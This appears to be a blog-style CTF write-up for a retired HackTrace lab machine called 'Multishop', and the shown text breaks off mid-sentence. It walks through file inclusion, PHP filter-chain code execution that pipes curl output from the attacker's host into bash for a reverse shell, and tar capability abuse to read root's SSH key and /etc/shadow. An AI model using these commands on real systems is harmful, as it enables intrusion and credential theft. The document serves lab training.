 ```yaml
---
title: "Multishop"
# date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - ctf
  - hacktrace-ranges
  - retired-mechines
---
```



### Affected Endpoint ###
Scope
```
    host/url:10.1.2.140
    Description: Access using hacktrace vpn
```
working time: 30 agustus - 2 september 2024

### Description ###
Background Story: The more you read, the more things you will know. The more you learn, the more places you will visit. 

vulnerability: file inclusion and Misuse of Linux Capabilities.

### Impact ###
Impact File Inclusion & Misuse of Linux Capabilities is:
- Information Disclosure.
- Code Execution.
- Privilege Escalation.
- System Integrity Compromise.

### Step To Reproduce ###
The steps in finding  vulnerability are as follows:
- Information Gathering.
- Enumeration.
- Exploit.
- Privilege escalation.
- Reporting.

### PoC ###
#### Information Gathering ####
Just as usual, we start off with the Nmap scan:
```
nmap -sCV -p- --min-rate=1000 -oN nmap -Pn 10.1.2.140
```
![alt text](/assets/images/hacktrace/multishop/image1.png)
There are two ports open: 22 (SSH), 80 (HTTP). Not having any credentials for the SSH service service, we will start with enumerating port 80. 
Scan directory using dirsearch
``` 
dirsearch -u http://10.1.2.140 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```
![alt text](/assets/images/hacktrace/multishop/image2.png)
Try scanning the directory again, this time it's interesting in the bio
```
dirsearch -u http://10.1.2.140/bio -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```
![alt text](/assets/images/hacktrace/multishop/image3.png)
That's it, nothing interesting, try looking into the url
![alt text](/assets/images/hacktrace/multishop/image4.png)
It looks like there is no upload file, I tried view-page:source
![alt text](/assets/images/hacktrace/multishop/image5.png)
There is a name parameter, this can indicate input validation, let's try to change the value 
```
http://10.1.2.140/bio/?name=../../../etc/passwd
```
![alt text](/assets/images/hacktrace/multishop/image6.png)
It turns out that we can do file inclusion, seen from the response given. 
Referensi file inclusion :
`https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md`
after reading through it turns out that file inclusion using wrappers (php: //filter) can be entered, we create the payload using the php_filter_chain_generator.py tool 
```
python3 php_filter_chain_generator.py --chain '<?php phpinfo();?>'
```
later the payload will come out and paste it in the parameter name, if you want the book to continue.
![alt text](/assets/images/hacktrace/multishop/image7.png)
And it does, we can continue to rce, but we have to create a file and live python3 -m http.server, the steps are as follows:
1.	Create a file with the name l (fiel that contains revshel bash) why is the name l and does not contain extensions? because so that the payload is not too long, because it is usually an error, the length of url
 ![alt text](/assets/images/hacktrace/multishop/image8.png)
2.	After that, start the server with python3 -m http.server 80
 ![alt text](/assets/images/hacktrace/multishop/image9.png)
3.	Turn on nc to capture the payload we created in the file earlier nc -lvnp port
4.	Generate payload : python3 php_filter_chain.py --chain  '<?=`curl -s -L 10.18.200.165/l|bash`?>' (meaning that after successfully getting files from our machine server, it is immediately run)
  ![alt text](/assets/images/hacktrace/multishop/image10.png)
  ![alt text](/assets/images/hacktrace/multishop/image11.png)
Now the payload is successful, because the file can be obtained by the target server and immediately executed
5.	Successful, we have entered the server as www-data
  ![alt text](/assets/images/hacktrace/multishop/image12.png)
### Privilage Escalation ###
1.	Grab linpeas.sh from our machine and move it to the target machine with wget then run linpeas.sh 
2.	After running it successfully found Files with capabilities (limited to 50)
  ![alt text](/assets/images/hacktrace/multishop/image13.png)
  We can manipulate this to get root privileges. There is a capability reference for privsec.: 
  `https://juggernaut-sec.com/capabilities/`
3.	We use the /usr/bin/tar to get access rights, try to find id_rsa for ssh login as root.
4.	We move to the bin directory with the command: cd /usr/bin.
5.	then tar xf “/root/.ssh/id_rsa” -I '/bin/sh -c “cat 1>&2”' then the id_rsa output will come out.
  ![alt text](/assets/images/hacktrace/multishop/image14.png)
6.	managed to get the credential id_rsa to login to ssh as root without using a password, but we can also see the root password (/etc/shadow) by using this credential capability, but it takes time to decrypt the password and we also don't know what wordlist is used. This is 










